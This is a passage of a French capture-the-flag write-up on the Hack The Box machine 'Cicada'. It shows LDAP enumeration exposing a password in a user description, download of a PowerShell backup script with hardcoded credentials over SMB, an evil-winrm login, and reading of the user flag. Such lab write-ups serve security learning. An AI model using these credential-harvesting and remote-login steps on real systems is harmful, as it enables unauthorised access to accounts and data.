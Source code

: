 LDAP        10.10.11.35     389    CICADA-DC        sarah.dantelia                2024-03-14 12:17:29 5
LDAP        10.10.11.35     389    CICADA-DC        michael.wrightson             2024-03-14 12:17:29 0
LDAP        10.10.11.35     389    CICADA-DC        david.orelious                2024-03-14 12:17:29 3       Just in case I forget my password is aRt[...expurgé...]VQ!3
LDAP        10.10.11.35     389    CICADA-DC        emily.oscars                  2024-08-22 21:20:17 1
{% endcapture %}
{% include elements/spoil.html %}

Il n'est toujours pas possible d'utiliser `evil-winrm` avec cet utilisateur, mais nous parvenons à récupérer un script dans le dossier DEV inaccessible jusqu'à présent.

```bash
smbclient //cicada.htb/DEV/ -U david.orelious 
Password for [WORKGROUP\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 13:31:39 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 19:28:22 2024

		4168447 blocks of size 4096. 220359 blocks available
smb: \> get Backup_script.ps1 
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (5,8 KiloBytes/sec) (average 5,8 KiloBytes/sec)
```

Ce script Powershell contient les identifiants d'un autre utilisateur **Emily Oscars**

```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@[...expurgé...]*Vt" -AsPlainText -Force
[...expurgé pour brièveté...]
```

Nous avons à présent un accès à la machine grâce à ces identifiants

```bash
evil-winrm -i cicada.htb -u emily.oscars -p 'Q!3@[...expurgé...]*Vt' 
[...expurgé pour brièveté...]
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami
cicada\emily.oscars
```

Le flag utilisateur se trouve régulièrement sur le bureau de l'utilisateur, nous pouvons donc lire son contenu :

```powershell
Get-Content ..\Desktop\user.txt
408c7a[...expurgé...]a23381
```
